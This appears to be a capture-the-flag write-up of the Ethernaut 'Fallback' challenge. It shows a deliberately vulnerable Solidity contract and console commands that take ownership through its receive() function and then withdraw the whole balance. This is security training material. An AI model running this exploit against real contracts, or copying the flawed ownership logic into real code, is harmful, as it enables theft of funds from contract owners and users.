 # Fallback Challenge

### The goal of this challenge is to claim the ownership of the contract and reduce it's balance to 0 by sending it to your wallet

Smart Contract:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

- The first step is to claim the ownership of the smart contract and to do that we will call the contribute function to become a contributor.

Here's how we will call the contribute function in the ethernaut console.

```
await contract.contribute({value: "<enter value here in wei that is less than 0.001 eth>"}) 
// here's how we can find the value in wei 
// In the console use `await contract.toWei("enter in eth")`
```

- Now we can call the `getContribution` function and that would show that we are now contributors so now we can call the recieve() function by just sending a transaction and we will get the ownership of the contract.

```
await contract.sendTransaction({value: <value in wei>})
```

- Now if we check the owner, we will be the owner of the contract, So let's withdraw all the eth from the account by running the `withdraw` function.

```
await contract.withdraw();
```

And BOOM!!!
There's your hacked Contract.